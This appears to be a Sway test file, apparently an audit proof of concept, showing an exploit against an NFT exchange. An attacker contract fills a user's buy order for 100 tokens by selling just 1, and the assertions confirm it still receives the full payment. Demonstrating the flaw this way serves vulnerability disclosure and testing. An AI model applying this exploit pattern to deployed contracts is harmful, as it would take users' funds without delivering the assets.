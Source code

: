 ```rs
  let attacker = abi(TestAttacker, test_attacker::CONTRACT_ID);

  let asset_id = AssetId::new(ContractId::from(test_asset::CONTRACT_ID), DEFAULT_SUB_ID);
  let strategy = ContractId::from(strategy_fixed_price_sale::CONTRACT_ID);

  let params = ExtraParams {
    extra_address_param: ZERO_ADDRESS,
    extra_contract_param: ZERO_CONTRACT_ID,
    extra_u64_param: 0,
  };

  let order = MakerOrderInput {
    side: Side::Buy,
    maker: Address::from(test_user::CONTRACT_ID),
    collection: ContractId::from(test_asset::CONTRACT_ID),
    token_id: SUB_ERC_1155_ID,
    price: 500,
    amount: 100,
    nonce: 1,
    strategy: strategy,
    payment_asset: asset_id,
    expiration_range: 1000,
    extra_params: params,
  };

  // user places ordinary buy order
  user.place_buy_order(asset_id, 500, order);


  let taker_order = TakerOrder {
    side: Side::Sell,
    taker: Address::from(test_attacker::CONTRACT_ID),
    maker: Address::from(test_user::CONTRACT_ID),
    nonce: 1,
    price: 500,
    token_id: SUB_ERC_1155_ID,
    collection: ContractId::from(test_asset::CONTRACT_ID),
    strategy: strategy,
    extra_params: params,
  };

  // attackers sells only 1 token although the users asked for 100
  attacker.execute_attack(taker_order);

  assert(balance_of(ContractId::from(test_attacker::CONTRACT_ID), AssetId::new(order.collection, order.token_id)) == (1000 - 1)); // attaker sold only 1 token instead of 100
  assert(balance_of(ContractId::from(test_attacker::CONTRACT_ID), asset_id) == (1000 + 500)); // attaker received the full payment
}

#[test()]
fn test_attack() {
  initialize_functions();
  setup_exchange();

  // attack part
  call_attack();
}
```
